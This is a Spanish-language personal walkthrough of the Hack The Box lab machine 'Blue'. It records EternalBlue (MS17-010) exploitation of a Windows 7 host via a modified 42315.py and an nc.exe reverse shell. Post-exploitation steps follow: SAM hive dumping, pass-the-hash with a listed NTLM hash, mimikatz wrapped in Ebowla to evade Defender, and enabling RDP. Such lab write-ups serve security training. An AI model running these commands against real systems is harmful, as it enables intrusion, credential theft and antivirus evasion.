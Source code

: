 # Blue

Tags: [[_cve]],[[_persistenceTechniques]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">135</span> - RPC.
<span style="color:#ff669c">139</span> - NetBios.
<span style="color:#ff669c">445</span> - SMB. <span style="color:#379075">Windows 7</span>.
Y <span style="color:#07b4f2">más desde</span> el <span style="color:#ff669c">49152</span> en <span style="color:#07b4f2">adelante</span>.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">445</span>.
Vemos que es un<span style="color:#ff2dc0"> Windows 7</span>, <span style="color:#07b4f2">probemos</span> si es vulnerable al <span style="color:#ff2dc0">Eternal Blue</span>.
<span style="color:#88c425">nmap --script="vuln and safe" -p445 10.10.10.40  -oN EBscan</span>:    <span style="color:#ff2dc0">vulnerable</span>.

<span style="color:#88c425">Clonamos</span> https://github.com/worawit/MS17-010
<span style="color:#88c425">python checker.py 10.10.10.40</span> :    con <span style="color:#ecacb6">python2.7</span> 
<span style="color:#07b4f2">No detecta</span> <span style="color:#ff2dc0">named pipes</span>, pero si <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">script</span> y ponemos<span style="color:#ecacb6"> USERNAME = 'guest'</span> sí funciona.

<span style="color:#07b4f2">Usamos</span> el <span style="color:#ecacb6">42315.py</span>, es el que <span style="color:#07b4f2">está</span> en <span style="color:#ff2dc0">searchsploit</span>, <span style="color:#379075">y lo metemos en el directorio MS17-010</span>.
<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ecacb6">42315.py</span>
<span style="color:#ff2dc0">Comentamos</span> y <span style="color:#ff2dc0">descomentamos</span> lo <span style="color:#07b4f2">importante</span>.
!(/images/20241208105113.png)

Creamos un <span style="color:#ff2dc0">recurso compartido a nivel de red</span>, <span style="color:#07b4f2">ofreciendo</span> el <span style="color:#ecacb6">nc.exe</span>
Nos ponemos en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto</span> especificado.
Ejecutamos el <span style="color:#ff2dc0">script</span>
<span style="color:#88c425">python 42315.py 10.10.10.40</span> :    y pa deeentro.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">nt authority\system</span> debido a que al <span style="color:#ff2dc0">explotar</span> el <span style="color:#ff2dc0">Eternal Blue</span>, se gana <span style="color:#07b4f2">acceso</span> como el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">privilegiado</span>.

Fin.

<span style="color:#bef202">EXTRA</span>.
<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Obtener</span> <span style="color:#ff2dc0">Hashes NTLM</span>.
En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">reg save HKLM\sam sam.backup</span>
<span style="color:#88c425">reg save HKLM\system system.backup</span>

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
Creo un <span style="color:#ff2dc0">recurso compartido</span> a nivel de red <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">SMB</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me los</span> <span style="color:#ff2dc0">transfiero</span>.

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#88c425">impacket-secretsdump -sam sam.backup -system system.backup LOCAL</span>
!(/images/20241208125302.png)

<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa</span> :    <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver</span> <span style="color:#ff2dc0">credenciales</span> en <span style="color:#ff2dc0">texto claro</span>.

<span style="color:#88c425">impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc</span> :    <span style="color:#ff2dc0">conectarme</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">psexec</span> 


<span style="color:#ecacb6">2.-</span><span style="color:#ff2dc0"> Dumpear credenciales </span><span style="color:#07b4f2">de</span> la <span style="color:#ff2dc0">memoria</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#ff2dc0">Ebowla</span> para <span style="color:#07b4f2">eludir</span> el <span style="color:#ff2dc0">Defender</span>.
Clonamos https://github.com/Genetic-Malware/Ebowla
<span style="color:#88c425">mv mimikatz.exe Ebowla</span>
<span style="color:#88c425">cd Ebowla</span>
<span style="color:#88c425">vim genetic.config</span>
<span style="color:#ecacb6">output_type = GO</span>
<span style="color:#ecacb6">payload_type = EXE</span>

<span style="color:#ecacb6">[[ENV_VAR]]</span> :    hay que <span style="color:#07b4f2">ponerlas bien</span>, porque <span style="color:#07b4f2">se toman</span> las <span style="color:#ff2dc0">variables de entorno</span> de la <span style="color:#07b4f2">propia</span> <span style="color:#ff2dc0">máquina</span> para lograr <span style="color:#07b4f2">subir</span> el <span style="color:#ff2dc0">archivo</span> deseado.
Con <span style="color:#07b4f2">estas</span> son <span style="color:#07b4f2">suficientes</span>.
!(/images/20241208132242.png)

Necesita <span style="color:#ecacb6">python2</span>, hago
<span style="color:#88c425">cp -r /home/joelkami/Documentos/HTB/Maquinas/Blue/content/Ebowla .</span> :    <span style="color:#07b4f2">lo llevo a</span> mi <span style="color:#ff2dc0">entorno virtual</span>.
<span style="color:#88c425">pip install configobj</span> :    lo necesita.
<span style="color:#88c425">apt install mingw-w64</span> :    lo necesita.

<span style="color:#88c425">python ebowla.py mimikatz.exe genetic.config</span> 
<span style="color:#88c425">./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe</span>
<span style="color:#88c425">ls output/final_mimi.exe</span> :    ya lo podríamos <span style="color:#ff2dc0">subir</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">final_mimi.exe</span> :    entramos a una <span style="color:#ff2dc0">sesión interactiva</span>.
<span style="color:#88c425">privilege::debug</span>
<span style="color:#88c425">sekurlsa::logonPasswords</span>
Y podríamos <span style="color:#07b4f2">ver</span> las <span style="color:#ff2dc0">credenciales</span> en <span style="color:#07b4f2">claro</span>.


<span style="color:#ecacb6">3.-</span> <span style="color:#ff2dc0">Habilitar</span> y <span style="color:#ff2dc0">conectarnos</span> <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">RDP</span>.
<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable</span> :    usamos un <span style="color:#ff2dc0">módulo</span> de <span style="color:#ff2dc0">crackmapexec</span> para <span style="color:#07b4f2">habilitar</span> el <span style="color:#ff2dc0">RDP</span>.

<span style="color:#88c425">rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'</span> 


<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">Persistence</span> (<span style="color:#379075">intrusive</span>).
En <span style="color:#ecacb6">Vulnerabilidades y Temas/Persistence Techniques/Persistence CheatSheets</span> <span style="color:#07b4f2">tenemos</span> distintas <span style="color:#07b4f2">vías</span>.
